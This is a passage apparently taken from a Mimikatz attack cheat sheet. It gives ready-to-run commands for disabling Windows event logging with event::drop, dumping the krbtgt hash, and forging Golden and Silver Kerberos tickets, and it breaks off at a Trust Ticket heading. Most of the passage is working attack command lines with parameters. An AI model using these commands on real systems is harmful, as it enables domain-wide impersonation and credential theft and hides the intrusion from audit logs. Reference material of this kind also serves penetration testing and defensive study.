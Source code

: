 - **Command**: `event::drop`
- This experimental command is designed to modify the Event Logging Service's behavior, effectively preventing it from recording new events.
- Example: `mimikatz "privilege::debug" "event::drop" exit`

- The `privilege::debug` command ensures that Mimikatz operates with the necessary privileges to modify system services.
- The `event::drop` command then patches the Event Logging service.


### Kerberos Ticket Attacks

### Golden Ticket Creation

A Golden Ticket allows for domain-wide access impersonation. Key command and parameters:

- Command: `kerberos::golden`
- Parameters:
  - `/domain`: The domain name.
  - `/sid`: The domain's Security Identifier (SID).
  - `/user`: The username to impersonate.
  - `/krbtgt`: The NTLM hash of the domain's KDC service account.
  - `/ptt`: Directly injects the ticket into memory.
  - `/ticket`: Saves the ticket for later use.

Example:

```bash
#Dump the krbtgt Hash -
lsadump::lsa /inject /name:krbtgt

mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```

### Silver Ticket Creation

Silver Tickets grant access to specific services. Key command and parameters:

- Command: Similar to Golden Ticket but targets specific services.
- Parameters:
  - `/service`: The service to target (e.g., cifs, http).
  - Other parameters similar to Golden Ticket.

Example:

```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```

### Trust Ticket Creation

Trust Tickets are used for accessing resources across domains by leveraging trust relationships. Key command and parameters:
